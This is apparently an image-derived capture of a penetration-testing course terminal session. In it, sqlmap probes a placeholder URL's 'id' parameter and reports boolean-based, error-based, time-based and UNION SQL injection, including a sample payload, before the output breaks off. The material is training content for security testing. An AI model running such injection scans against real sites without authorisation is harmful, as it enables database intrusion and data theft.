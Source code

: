 ```shell-session
M1R4CKCK@htb[/htb]$ sqlmap -u "http://www.example.com/vuln.php?id=1" --batch
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.4.9}
|_ -| . [,]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org


[*] starting @ 22:26:45 /2020-09-09/

[22:26:45] [INFO] testing connection to the target URL
[22:26:45] [INFO] testing if the target URL content is stable
[22:26:46] [INFO] target URL content is stable
[22:26:46] [INFO] testing if GET parameter 'id' is dynamic
[22:26:46] [INFO] GET parameter 'id' appears to be dynamic
[22:26:46] [INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')
[22:26:46] [INFO] heuristic (XSS) test shows that GET parameter 'id' might be vulnerable to cross-site scripting (XSS) attacks
[22:26:46] [INFO] testing for SQL injection on GET parameter 'id'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[22:26:46] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[22:26:46] [WARNING] reflective value(s) found and filtering out
[22:26:46] [INFO] GET parameter 'id' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="luther")
[22:26:46] [INFO] testing 'Generic inline queries'
[22:26:46] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[22:26:46] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
...SNIP...
[22:26:46] [INFO] GET parameter 'id' is 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable 
[22:26:46] [INFO] testing 'MySQL inline queries'
[22:26:46] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[22:26:46] [WARNING] time-based comparison requires larger statistical model, please wait........... (done)                                                                                                       
...SNIP...
[22:26:46] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[22:26:56] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[22:26:56] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[22:26:56] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[22:26:56] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[22:26:56] [INFO] target URL appears to have 3 columns in query
[22:26:56] [INFO] GET parameter 'id' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 46 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 8814=8814

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
```